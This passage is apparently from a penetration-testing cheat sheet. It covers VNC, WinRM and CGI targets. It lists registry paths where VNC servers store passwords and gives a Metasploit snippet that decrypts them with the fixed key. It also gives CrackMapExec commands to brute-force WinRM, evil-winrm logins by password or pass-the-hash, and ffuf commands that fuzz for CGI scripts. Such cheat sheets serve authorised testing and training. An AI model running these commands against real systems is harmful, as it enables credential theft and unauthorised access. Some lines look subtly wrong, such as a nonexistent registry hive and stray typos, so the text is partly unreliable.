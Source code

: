 ```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

---

## WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

---

## CGI

### Found CGI scripts

```
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
```
